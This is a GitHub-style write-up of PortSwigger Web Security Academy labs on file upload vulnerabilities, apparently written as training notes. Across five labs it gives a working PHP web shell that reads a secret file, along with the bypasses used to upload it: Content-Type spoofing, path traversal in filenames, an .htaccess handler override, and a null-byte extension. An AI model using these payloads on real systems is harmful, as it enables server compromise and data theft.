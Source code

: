 # File upload vulnerabilities


---

<details>
  <summary>Lab: Remote code execution via web shell upload</summary>

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter``


---

1. login as ``wiener``
2. make newfile ``exploit.php``

``content`` of it:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

3. on my profile try to upload this file instead of photo

<img width="1140" height="282" alt="image" src="https://github.com/user-attachments/assets/27a7e7ba-24e8-44f4-9cfa-f8f0237436a9" />

<img width="1541" height="690" alt="image" src="https://github.com/user-attachments/assets/d63874c1-6f17-4726-8cf3-2c43c93797cb" />

4. it successfully uploaded
5. now want to run this file we know form the request it saved in ``/files/avatars/exploit.php``

```url
https://0a6300e9038f3f07800e218600ea00a0.web-security-academy.net/files/avatars/exploit.php
```
```
mPcV5fg8QF3QG5vvRAjs2BIz4bVAcRra
```

<img width="1541" height="690" alt="image" src="https://github.com/user-attachments/assets/634cd97e-e1b8-4194-816f-b98dd585f83c" />

  
</details>











<details>
  <summary>Lab: Web shell upload via Content-Type restriction bypass</summary>

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter`` 

---

1. login as ``wiener``
2. try to upload the ``exploit.php`` file from the previous lab

<img width="1232" height="149" alt="image" src="https://github.com/user-attachments/assets/27c9ab4e-a4aa-45ea-bcbd-ca7e4a56f62b" />

```http
POST /my-account/avatar HTTP/1.1
Host: 0a5900f8048b466280958aeb001f0009.web-security-academy.net
Cookie: session=JQCpU8NyZ2a2NOLfc3h8MgTUU08KE6Qp
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------165255631921329333142258700441
Content-Length: 546
Origin: https://0a5900f8048b466280958aeb001f0009.web-security-academy.net
Referer: https://0a5900f8048b466280958aeb001f0009.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php


<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="user"


wiener
-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="csrf"


SroXqhkioX5U46fb2pTZihfwA21q9io7
-----------------------------165255631921329333142258700441--


```

3. change ``Content-Type: application/x-php`` to

```http
Content-Type: image/jpeg
```

boom , it's uploaded successfully 

<img width="1402" height="677" alt="image" src="https://github.com/user-attachments/assets/85ce0cdc-84f1-47e7-8c51-aa44a7199c45" />

4. now run the ``exploit.php``

```
https://0a5900f8048b466280958aeb001f0009.web-security-academy.net/files/avatars/exploit.php
```

<img width="1107" height="188" alt="image" src="https://github.com/user-attachments/assets/f3f6f85d-7630-4d7d-860c-5c494be25cba" />

```
D7rWxnQnptgyIvGxDMbks5trX0Z2bT3w
```



  
</details>








<details>
  <summary>Lab: Web shell upload via path traversal</summary>


> ### This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability. ``path traversal``

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter`` 


---

1. login as ``wiener``
2. upload ``exploit.php`` file that we used in previous labs

<img width="979" height="170" alt="image" src="https://github.com/user-attachments/assets/b20ec59d-650a-4be2-843a-0f1ac37c31f2" />

it's uploaded successfully !!!

3. now try to run it 

```
https://0a78004503363a658cb1f98b00190005.web-security-academy.net/files/avatars/exploit.php
```

no thing happend !!!!

<img width="1034" height="380" alt="image" src="https://github.com/user-attachments/assets/53ce3704-b2f2-4b56-aba1-ce42a718c25f" />



this mean it not allow files in this directory to excuted ``/avatars``

so if we put the file on ``/files`` by using ``path traversal`` it will run

4. now try to upload ``exploit.php`` again and intercpt the request

```http
POST /my-account/avatar HTTP/2
Host: 0a78004503363a658cb1f98b00190005.web-security-academy.net
Cookie: session=9q473x8Ya7X7vZoCqHNFpEhPDiMhsdur
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------423410706123145428642617479270
Content-Length: 546
Origin: https://0a78004503363a658cb1f98b00190005.web-security-academy.net
Referer: https://0a78004503363a658cb1f98b00190005.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php


<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="user"


wiener
-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="csrf"


BvzgCzBq7ovrFY8tBRq8TrYlQF11tuIl
-----------------------------423410706123145428642617479270--


```

5. now change filename in ``Content-Disposition: form-data; name="avatar"; filename="exploit.php"`` to ``..%2fexploit.php`` we use ``..%2f`` to bypass the filter instead of ``../``

```
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

it's uploaded successfully this proof on ``path traversal``

<img width="1225" height="620" alt="image" src="https://github.com/user-attachments/assets/d74ed916-00fe-42c9-8edd-43c31ae05864" />


6. now run it form ``/files/exploit.php`` not ``/files/avatars/exploit.php``


```
https://0a78004503363a658cb1f98b00190005.web-security-academy.net/files/exploit.php
```


<img width="947" height="229" alt="image" src="https://github.com/user-attachments/assets/8527190e-e0e2-4937-a273-75f403014d34" />


```
MDkBY5byb22IlmP48nQqlbwOjszk9a0z
```

  
</details>










<details>
  <summary>Lab: Web shell upload via extension blacklist bypass</summary>



> You can log in to your own account using the following credentials: ``wiener:peter`` 



---

> ## in this lab server don't allow to upload ``.php`` files
> ### this lab use ``Apache`` server ``+`` ``mod_php`` this php module allow apache to excute ``php`` files Directly
> in apache there is feature call ``per-directory configuration`` that is mean you can add file with instructures inside any directory in server this file call ``.htaccess`` this file change the way that server deal with files in this directory only

1. login as ``wiener``
2. create new file call ``file.txt`` contain

```
AddType application/x-httpd-php .l33t
```

> this content tell ``apache`` that any file with ``.l33t`` extension deal with it as ``php`` file and excute it

when send it change ``filename`` to ``.htaccess``

```http
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
```

<img width="1224" height="580" alt="image" src="https://github.com/user-attachments/assets/7364949a-a9a0-4f1c-8382-973b6caab83b" />

> #### now if i upload ``php`` file with ``l33t`` extension it will uploaded

3. make file ``exploit.l33t``

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

<img width="1250" height="616" alt="image" src="https://github.com/user-attachments/assets/a2d662ab-4237-45e1-8632-0574a0007aaf" />

it uploaded successfully 

4. now run this file

```
https://0ac900c804effd6783b30a9a00b1002b.web-security-academy.net/files/avatars/exploit.l33t
```

<img width="997" height="233" alt="image" src="https://github.com/user-attachments/assets/e3297f2c-fd02-414d-8129-54b83d6e3308" />


```
a70CUTgIcfSJ8OgubEYNg29zljZYF2NV
```
  
</details>






<details>
  <summary>Lab: Web shell upload via obfuscated file extension</summary>


1. login as wiener
2. try to change photo and upload **`exploit.php`**

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

<img width="1771" height="765" alt="image" src="https://github.com/user-attachments/assets/3822d6f6-4410-4c61-b7f2-f24a5bda8c50" />

3. try to change extension to :

```
exploit.php%00.jpg
```

<img width="1828" height="722" alt="image" src="https://github.com/user-attachments/assets/08c124b2-7601-4f27-a0a0-274f462d4887" />


> it uploaded successfully


```url
GET /files/avatars/exploit.php HTTP/2
```

<img width="1467" height="513" alt="image" src="https://github.com/user-attachments/assets/7cbddfe5-1a53-43f7-ab58-4938202ff147" />


```
raBbwWYE7pk77sdGXjeDvpzl0PTQUbBq
```

  
</details>























